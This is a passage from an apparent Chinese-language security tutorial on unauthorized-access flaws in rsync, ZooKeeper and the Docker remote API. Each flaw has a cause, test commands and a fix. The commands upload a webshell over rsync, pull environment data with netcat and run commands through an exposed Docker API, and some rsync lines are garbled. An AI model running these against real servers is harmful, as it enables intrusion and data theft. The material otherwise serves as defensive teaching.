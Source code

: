 ```

```

修复建议：增加用户密码权限验证，设置本地监听或者访问控制。

#### Rsync未授权访问

漏洞原因：未配置账号密码认证，导致未授权访问。

漏洞测试：

```
列举整个同步目录或指定目录：
rsync 10.0.0.12 ::
rsync 10.0.0.12 :: www /

下载文件或目录到本地：
rsync – avz 10.0.0.12 :: WWW/  /var/tmp
rsync – avz 10.0.0.12 :: www/  /var/tmp

上传本地文件到服务端：
rsync -avz webshell 10.0.0.12 :: WWW /

```

修复建议：增加用户密码认证，设置访问ip限制。

#### Zookeeper未授权访问

漏洞原因：ZooKeeper默认开启在2181端口，在未进行任何访问控制情况下，攻击者可通过执行envi命令获得系统大量的敏感信息，包括系统名称、Java环境。

漏洞测试：echo envi|nc 192.168.15.74 2181

![img](https://www.cnblogs.com/xiaozi/p/image/20200722-05.png)

![img](https://img2020.cnblogs.com/blog/894761/202007/894761-20200723233213497-1451687566.png)

修复建议：添加用户名密码认证，设置ip访问控制。

#### Docker未授权访问

漏洞原因：docker remote api可以执行docker命令，docker守护进程监听在0.0.0.0，可直接调用API来操作docker。

```
sudo dockerd -H unix:///var/run/docker.sock -H 0.0.0.0:2375

```

漏洞利用：

通过docker daemon api 执行docker命令。

```
#列出容器信息，效果与docker ps一致。 
curl http://<target>:2375/containers/json 

#启动容器
docker -H tcp://<target>:2375 ps -a

```
